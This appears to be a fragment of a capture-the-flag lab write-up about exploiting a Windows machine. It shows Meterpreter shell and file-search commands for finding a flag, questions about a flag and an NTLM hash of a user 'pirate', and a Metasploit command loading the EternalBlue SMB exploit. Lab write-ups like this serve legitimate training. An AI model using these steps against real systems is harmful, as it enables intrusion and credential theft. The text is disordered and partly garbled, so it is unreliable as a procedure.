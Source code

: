 # change to interactable shell with native command

shell

# etc

cd
dir
pwd
search -f flag.txt
type flag.txt

![](https://velog.velcdn.com/images/agnusdei1207/post/841b2d11-69ad-4a2c-b3e6-1dcfe22a113e/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/af142867-ed28-4348-9802-09e0fb636536/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/e74d0066-fe70-4808-b11e-c441694f304f/image.png)
What is the content of the flag.txt file?

![](https://velog.velcdn.com/images/agnusdei1207/post/bee7be2c-3990-444c-a2c2-63c32c46b790/image.png)
What is the NTLM hash of the password of the user "pirate"?

use use exploit/windows/smb/ms17_010_eternalblue
